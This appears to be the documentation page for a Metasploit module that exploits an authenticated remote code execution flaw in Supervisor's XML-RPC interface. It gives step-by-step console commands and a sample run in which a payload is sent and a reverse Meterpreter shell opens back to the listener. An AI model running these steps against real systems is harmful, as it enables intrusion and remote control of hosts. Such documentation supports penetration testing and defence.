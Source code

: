 ## Vulnerable Application

  This module exploits an authenticated RCE vulnerability in Supervisor versions 3.0a1 to 3.3.2
  
  This has been tested with versions 3.2.0 and 3.3.2

## Verification Steps

  1. ```msf > use exploit/linux/http/supervisor_xmlrpc_exec```
  2. ```msf > set lhost 192.168.0.2```
  3. ```msf > set rhost 192.168.0.19```
  4. ```msf > set httpusername user``` (optional)
  5. ```msf > set httppassword 123``` (optional)
  6. ```msf > exploit```
  7. A meterpreter session should have been opened successfully

## Options

  `HttpUsername` - Username for HTTP basic auth (optional)
  `HttpPassword` - Password for HTTP basic auth (optional)
  `TARGETURI` - The path to the XML-RPC endpoint

## Scenarios

  ```
msf > use exploit/linux/http/supervisor_xmlrpc_exec 
msf exploit(supervisor_xmlrpc_exec) > set httpusername user
httpusername => user
msf exploit(supervisor_xmlrpc_exec) > set httppassword 123
httppassword => 123
msf exploit(supervisor_xmlrpc_exec) > set lhost 192.168.0.2
lhost => 192.168.0.2
msf exploit(supervisor_xmlrpc_exec) > set rhost 192.168.0.19
rhost => 192.168.0.19
msf exploit(supervisor_xmlrpc_exec) > check 

[*] Extracting version from web interface..
[*] Using basic auth (user:123)
[+] Vulnerable version found: 3.2.0
[*] 192.168.0.19:9001 The target appears to be vulnerable.
msf exploit(supervisor_xmlrpc_exec) > exploit 

[*] Started reverse TCP handler on 192.168.0.2:4444 
[*] Sending XML-RPC payload via POST to 192.168.0.19:9001/RPC2
[*] Using basic auth (user:123)
[*] Sending stage (2878872 bytes) to 192.168.0.19
[*] Command Stager progress - 100.00% done (782/782 bytes)
[+] Request timeout, usually indicates success. Passing to handler..
[*] Meterpreter session 1 opened (192.168.0.2:4444 -> 192.168.0.19:36186) at 2017-08-30 01:24:45 +0100

meterpreter > 
```